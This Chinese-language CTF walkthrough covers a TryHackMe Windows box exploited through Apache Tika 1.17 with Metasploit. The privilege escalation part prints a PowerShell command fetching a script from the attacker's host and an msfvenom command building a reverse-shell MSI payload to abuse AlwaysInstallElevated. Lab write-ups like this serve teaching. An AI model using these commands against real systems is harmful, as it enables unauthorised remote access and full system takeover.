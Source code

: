 ![image-20250529091825349](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529091825349.png)

我们得到了ip，将其加入hosts中

![image-20250529092147739](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529092147739.png)

我们用nmap扫出的信息，我们可以判断这是windows系统

![image-20250529093355503](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529093355503.png)

查看源代码，我们发现了一个端口，我们进行访问一下

![image-20250529093643305](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529093643305.png)

我们可以看到当前版本是Apache Tika 1.17

我们直接去searchsploit

![image-20250529095629631](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529095629631.png)

我们用msfconsole去攻击

![image-20250529100251383](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529100251383.png)

我们拿到了session，输入shell获得一个远程shell

进到用户的桌面，我们拿到了flag

![image-20250529100601048](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529100601048.png)



```
powershell wget http://10.17.19.218:8080/PrivescCheck.ps1  
```

我们将脚本下载下来，然后通过

```
Get-ChildItem -Path C:\ -Recurse -Filter "PrivescCheck.ps1"
```

![image-20250529105942450](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529105942450.png)

手动检查，可以看到没有开启防病毒

我们回到脚本结束的地方

**![image-20250529110104908](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529110104908.png)**

哦我们呢看到了AlaysInstallElevated

```
cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'
```

![image-20250529111124982](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529111124982.png)

确定这是一个 x64 系统后，我们回到攻击者的机器，从我们的工作目录中制作我们的漏洞利用程序，如下所示：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.19.218 LPORT=4445 -a x64 --platform Windows -f msi -o evil.msi
```

![image-20250529111430842](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529111430842.png)

下载文件

![image-20250529111659555](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250529111659555.png)

执行后得到system权限
